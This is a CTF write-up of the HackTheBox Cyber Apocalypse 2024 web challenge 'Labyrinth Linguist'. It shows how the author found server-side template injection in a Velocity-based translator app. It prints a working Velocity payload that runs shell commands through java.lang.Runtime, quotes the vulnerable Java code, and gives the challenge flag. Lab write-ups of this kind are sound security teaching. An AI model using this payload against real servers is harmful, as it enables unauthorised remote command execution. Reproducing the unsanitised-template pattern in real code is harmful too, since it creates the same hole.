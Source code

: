 ```yaml
---
name: Labyrinth Linguist (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for Labyrinth Linguist (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth Linguist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=586 "HackTheBox Cyber Apocalypse '24: Labyrinth Linguist (web)")

## Description

> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## Solution

We can review source code but first let's check the site functionality. It's basic, we have a form field and a submit button and it says `Enter text to translate english to voxalith!`.

If we enter some text, it will send our data in a POST request, e.g. `text=hi` and display our text in a "fire" text font.

```html
<h2 class="fire">hi</h2>
```

The burp scanner detects several vulns, including `SSTI`, `XSS` and `Client-side desync`.

The XSS checks out, we can easily pop an alert but what is a vulnerability without impact? Let's stop wasting time with self-XSS and review the SSTI.

The advisory notes that the template engine appears to be `Velocity`. Here's the URL-decoded payload, which prints `v0oot695019a4423` to the screen.

```java
#set ($a=923*753) v0oot${a}a4423
```

Burp always complicates PoC's for some reason, here's a better visualisation.

```java
#set ($hack=420*23) ${hack}
```

When URL-encoded, it prints `9660`. So, we have confirmed the presence of server-side template injection. Next, we want to find some payloads that do more than basic mathematical calculations.

-   [Portswigger SSTI research](https://portswigger.net/research/server-side-template-injection)
-   [HackTricks Velocity SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java)
-   [PayloadsAllTheThings Velocity SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity)
-   [Velocity SSTI blogpost](https://antgarsil.github.io/posts/velocity)
-   [Velocity user guide](https://velocity.apache.org/engine/1.7/user-guide.html)

None of the payloads I could find would work. I Tried `text=%23include("flag.txt")` and various directory traversals but it always always returned a 500 error; `unable to find resource`.

Eventually, I found a payload in a [gosecure SSTI workshop](https://gosecure.github.io/template-injection-workshop/#6) that worked.

```java
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('ls ../'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

It was quite similar to the payloads in the resources listed earlier. The main difference is we didn't access the `$class` variable directly (instead accessing via a string).

Anyway, we URL-encode the payload list out the files in the directory. One is named `flag3b28509596.txt` so we can just update the payload to `cat` the flag.

Again, we solved the challenge without requiring access to server-side source code. Personally, I think this is a valuable exercise, especially if you want to improve your bug bounty skills since source code is typically unavailable. Actually, I did download the code and check it very quickly towards the beginning, e.g. it's nice to know there's a `flag.txt` that will be in the root directory.

```bash
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

I didn't study the source code though. If I did, I would of discovered the `Main.java` file imports `velocity` and inserts our unsanitised user input (`textString`) into the webpage, resulting in SSTI.

```java
template = readFileToString("/app/src/main/resources/templates/index.html", textString);
```

```java
StringReader reader = new StringReader(template);
org.apache.velocity.Template t = new org.apache.velocity.Template();
```

```java
t.setData(runtimeServices.parse(reader, "home"));
t.initDocument();
VelocityContext context = new VelocityContext();
context.put("name", "World");
StringWriter writer = new StringWriter();
t.merge(context, writer);
template = writer.toString();
```

Flag: `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
